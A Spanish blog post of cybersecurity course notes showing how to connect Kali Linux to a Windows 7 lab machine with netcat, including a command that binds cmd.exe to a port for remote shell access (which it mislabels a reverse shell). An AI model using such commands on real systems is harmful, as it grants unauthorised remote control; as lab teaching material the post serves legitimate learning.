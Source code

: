 ```yaml
---
layout: single
title: Como hacer una conexion del lado cliente
date: 2023-11-22
classes: wide
header:
  teaser: "/assets/roadmap.webp"
categories:
  - slae
  - infosec
tags:
  - Ciberseguridad Udemy
  - netcat
  - Dia 4
---
```


Una Conexion del lado del cliente es muy parecida a la Conexion Directa porque es cuando el atacante se conecta a la victima pero la victima nos otorga permisos para usar su terminal desde nuestra maquina.

Nuestro Kali Linux es nuestro S.O como hacker, la maquina del atacante.

El Windows 7 Es la victima de la victima.

Entonces lo que vamos a hacer es una conexion directa que seria que con nuestro Kali nos conectamos al W7.

Ahora lo que vamos a hacer desde w7 es poner el comando

```sh
#nc -lvvp "puerto"
nc -lvvp 4447

# lo que hace la flag lvvp es poner netcat en escucha en el puerto 4447
```

![[Pasted image 20231123105506.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123105506.png)
`Tambien utilice ipconfig para poder saber mi ip para conectarme desde mi kali linux`
Ahi abrimos el puerto 4447 y es la puerta para que el atacante pueda entrar.

Ahora desde Kali linux lo que vamos a hacer es conectarnos mediante netcat.


```sh
#nc ip-victima
nc 192.168.0.45 4447
```

Una vez ejecutemos ese comando va a parecer que no paso nada pero si vamos a la maquina de la victima y hacemos una captura de lo que esta pasando es que tenemos un dispositivo conectado en nuestra maquina.

![[Pasted image 20231123105748.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123105748.png)

Ya en este momento hay una comunicacion directa  pero no se pueda hacer nada.
Así que ahora vamos a realizar la comunicación del lado del Cliente , para eso agregamos la flag -e que sirve para ejecutar un archivo, .exe, script lo que  fuere, la cosa cambia por ejemplo.

Desde la maquina victima escribimos ese comando
```sh
nc -lvvp 4440 -e cmd.exe
```

![[Pasted image 20231123110812.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123110812.png)

Abriendo el puerto 4440 y con la flag y el cmd.exe lo que estamos haciendo es que cuando ingrese el atacante , tenga acceso a nuestra linea de comandos desde su maquina. 
Estamos haciendo una reverse shell.

![[Pasted image 20231123111051.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123111051.png)

Todo ese comando desde la maquina del atacante, y miren lo que pasa en la maquina victima.
![[Pasted image 20231123111125.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123111125.png)

Justamente se crea la carpeta que hicimos desde la maquina atacante.
